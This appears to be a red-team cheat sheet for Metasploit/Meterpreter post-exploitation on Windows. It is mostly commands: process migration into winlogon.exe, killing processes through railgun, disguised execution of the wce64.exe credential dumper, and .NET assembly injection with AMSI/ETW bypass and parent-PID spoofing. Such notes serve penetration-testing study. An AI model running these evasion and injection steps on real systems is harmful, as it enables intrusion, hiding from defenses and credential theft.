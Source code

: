 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - metasploit-framework
  - windows
---
```

# Metasploit

## 01 - Migrate Process

### 1.1 - Help Menu

```
meterpreter > migrate -h
Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]

Migrates the server instance to another process.
NOTE: Any open channels or other dynamic state will be lost.
```

### 1.2 - Usage

```
meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

## 02 - Terminate Process

### 2.1 - Process ID

Terminate process ID.

```
meterpreter > kill <pid>
```

We'll create a new handle by retrieving the process ID. Then define a process handle `_['return']` after the conditions has been met. Terminate by calling the railgun function with zero exit code as an indication the process has been killed.

```
meterpreter > irb

>> client.railgun.kernel32.OpenProcess("PROCESS_TERMINATE", false, <pid>)

>> process_handle = _['return'] -> define a process handle

>> client.railgun.kernel32.TerminateProcess(process_handle, 0)
```

### 2.2 - Process Name

```
meterpreter > pkill <process_name>
```

## 03 - Inject Process

### 3.1 - Execute Process

Spawn a executable program as a dummy process with `-d` flag.

```
meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"
```

### 3.2 - DotNET CLR Assembly

```
msf > use post/windows/manage/execute_dotnet_assembly

msf post(windows/manage/execute_dotnet_assembly) > options

Module options (post/windows/manage/execute_dotnet_assembly):

  Name            Current Setting  Required  Description
  ----            ---------------  --------  -----------
  AMSIBYPASS      true             yes       Enable Amsi bypass
  ARGUMENTS                        no        Command line arguments
  DOTNET_EXE                       yes       Assembly file name
  ETWBYPASS       true             yes       Enable Etw bypass
  PID             0                no        Pid  to inject
  PPID            0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
  PROCESS         notepad.exe      no        Process to spawn
  SESSION                          yes       The session to run this module on
  Signature       Automatic        yes       The Main function signature (Accepted: Automatic, Main(), Main(string[]))
  USETHREADTOKEN  true             no        Spawn process with thread impersonation
  WAIT            10               no        Time in seconds to wait


View the full module info with the info, or info -d command.

msf post(windows/manage/execute_dotnet_assembly) > set dotnet_exe /path/to/compiled_dotnet_tool.exe

msf post(windows/manage/execute_dotnet_assembly) > set arguments [arguments]

msf post(windows/manage/execute_dotnet_assembly) > set signature <Automatic | Main() | Main(string[])>

msf post(windows/manage/execute_dotnet_assembly) > set amsibypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set etwbypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set process [process_name.exe]

msf post(windows/manage/execute_dotnet_assembly) > set pid [process_ID]

msf post(windows/manage/execute_dotnet_assembly) > set ppid [<parent_process_ID>]

msf post(windows/manage/execute_dotnet_assembly) > set usethreadtoken [true | false]

msf post(windows/manage/execute_dotnet_assembly) > set wait [seconds]

msf post(windows/manage/execute_dotnet_assembly) > set session <session_ID>

msf post(windows/manage/execute_dotnet_assembly) > run
```

`meterpeter` one-liner execution.

```
meterpreter > run post/windows/manage/execute_dotnet_assembly dotnet_exe=/path/to/compiled_dotnet_tool.exe [arguments="<arguments>"] signature=<Automatic | Main() | Main(string[])> set amsibypass=<true | false> etwbypass=<true | false> [process=<process_name>.exe] [pid=<process_ID>] [ppid=<parent_process_ID>] [usethreadtoken=<true | false>] [wait=<seconds>]
```

---
## References

- [Pentestlab Blog: Parent PID Spoofing](https://pentestlab.blog/2020/02/24/parent-pid-spoofing/)